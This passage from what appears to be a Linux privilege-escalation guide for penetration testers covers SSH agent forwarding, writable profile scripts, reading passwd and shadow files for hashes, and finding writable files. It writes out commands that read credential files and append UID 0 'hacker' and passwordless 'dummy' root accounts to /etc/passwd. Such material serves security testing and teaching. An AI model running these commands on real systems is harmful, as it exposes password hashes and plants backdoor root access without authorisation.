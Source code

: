 The file /etc/ssh_config can override this options and allow or denied this configuration.
The file /etc/sshd_config can allow or denied ssh-agent forwarding with the keyword AllowAgentForwarding (default is allow).

If you Forward Agent configured in an environment **[check here how to exploit it to escalate privileges**](ssh-forward-agent-exploitation.md).

Interesting Files
Profiles files
The file /etc/profile and the files under /etc/profile.d/ are scripts that are executed when a user run a new shell. Therefore, if you can write or modify any of the you can escalate privileges.

ls -l /etc/profile /etc/profile.d/
If any weird profile script is found you should check it for sensitive details.

Passwd/Shadow Files
Depending on the OS the /etc/passwd and /etc/shadow files may be using a different name or there may be a backup. Therefore it's recommended find all of hem and check if you can read them and check if there are hashes inside the files:

#Passwd equivalent files
cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null
In some occasions you can find password hashes inside the /etc/passwd (or equivalent) file

grep -v '^[^:]*:[x\*]' /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
Writable /etc/passwd
First generate a password with one of the following commands.

openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
Then add the user hacker and add the generated password.

hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
E.g: hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash

You can now use the su command with hacker:hacker

Alternatively you can use the following lines to add a dummy user without a password.
WARNING: you might degrade the current security of the machine.

echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
NOTE: In BSD platforms /etc/passwd is located at /etc/pwd.db and /etc/master.passwd, also the /etc/shadow is renamed to /etc/spwd.db.

You should check if you can write in some sensitive file. For example, can you write to some service configuration file?

find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | sort | uniq #Find files owned by the user or writable by anybody
for g in `groups`; do find \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME; done #Find files writable by any group of the user
For example, if the machine is running a tomcat server and you can modify the Tomcat service configuration file inside /etc/systemd/, then you can modify the lines:
